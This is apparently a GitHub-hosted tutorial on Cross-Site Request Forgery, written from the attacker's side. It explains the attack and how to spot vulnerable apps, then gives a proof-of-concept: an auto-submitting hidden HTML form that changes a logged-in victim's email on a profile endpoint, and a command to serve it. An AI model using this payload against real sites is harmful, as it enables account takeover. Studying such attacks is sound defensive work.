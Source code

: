 # Cross-Site Request Forgery (CSRF or XSRF)
***

#### Cross-Site Request Forgery (CSRF or XSRF) is a type of attack where an unsuspecting user is tricked into performing unintended actions on a web application where they are logged in. The attacker typically uses maliciously crafted web pages or links that the victim interacts with to exploit the lack of proper anti-CSRF protections. These malicious actions are executed using the victim's credentials and privileges, allowing the attacker to carry out unauthorized operations as if they were the victim.
#### CSRF attacks often focus on actions that alter the server's state, such as changing account details or making transactions, though they can also aim to access sensitive information. If a regular user is targeted, the attack can result in data theft or unauthorized actions. However, if the victim is an administrator, the attack could compromise the entire web application.
#### One critical aspect of CSRF attacks is that the attacker doesn't need to see the server's response to succeed. As a result, the Same-Origin Policy, which restricts cross-origin data access, does not provide protection against these attacks.

#### To check if a web application is vulnerable to CSRF attacks we should check if:
* All the parameters required for the targeted request can be determined or guessed
* The application's session management is based on HTTP cookies

#### Additionally, to exploit a CSRF vulnerability we need:
* A malicious web page that will issue a valid (croo-site) request impersonating our target
* Our target to be logged into the application at the time when the malicious cross-site request is issued

### Example:
#### 1. Create and serve the below HTML pge
```html
<html>
  <body>
    <form id="submit" action="http://[REAL_WEBSITE]/api/update-profile" method="POST">
      <input type="hidden" name="email" value="hackedby0xlightningg1337@fbi.gov" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submit").submit()
    </script>
  </body>
</html>
```

```bash
$ python -m http.server 1337
```


